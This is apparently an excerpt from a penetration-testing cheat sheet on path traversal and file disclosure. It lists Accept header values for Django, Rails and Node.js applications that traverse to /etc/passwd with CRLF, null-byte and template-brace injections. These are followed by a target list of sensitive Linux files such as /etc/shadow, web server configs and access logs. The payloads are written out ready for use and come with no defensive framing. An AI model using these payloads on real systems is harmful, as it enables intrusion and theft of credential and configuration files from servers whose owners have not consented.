 ##### Django, Rails, or Node.js Web Application Header Values

```c
Accept: ../../../../.././../../../../etc/passwd{{
Accept: ../../../../.././../../../../etc/passwd{%0D
Accept: ../../../../.././../../../../etc/passwd{%0A
Accept: ../../../../.././../../../../etc/passwd{%00
Accept: ../../../../.././../../../../etc/passwd{%0D{{
Accept: ../../../../.././../../../../etc/passwd{%0A{{
Accept: ../../../../.././../../../../etc/passwd{%00{{
```

##### Linux Files

```c
/etc/passwd
/etc/shadow
/etc/aliases
/etc/anacrontab
/etc/apache2/apache2.conf
/etc/apache2/httpd.conf
/etc/apache2/sites-enabled/000-default.conf
/etc/at.allow
/etc/at.deny
/etc/bashrc
/etc/bootptab
/etc/chrootUsers
/etc/chttp.conf
/etc/cron.allow
/etc/cron.deny
/etc/crontab
/etc/cups/cupsd.conf
/etc/exports
/etc/fstab
/etc/ftpaccess
/etc/ftpchroot
/etc/ftphosts
/etc/groups
/etc/grub.conf
/etc/hosts
/etc/hosts.allow
/etc/hosts.deny
/etc/httpd/access.conf
/etc/httpd/conf/httpd.conf
/etc/httpd/httpd.conf
/etc/httpd/logs/access_log
/etc/httpd/logs/access.log
/etc/httpd/logs/error_log
/etc/httpd/logs/error.log
/etc/httpd/php.ini
/etc/httpd/srm.conf
/etc/inetd.conf
/etc/inittab
/etc/issue
/etc/knockd.conf
/etc/lighttpd.conf
/etc/lilo.conf
/etc/logrotate.d/ftp
/etc/logrotate.d/proftpd
/etc/logrotate.d/vsftpd.log
/etc/lsb-release
/etc/motd
/etc/modules.conf
/etc/motd
```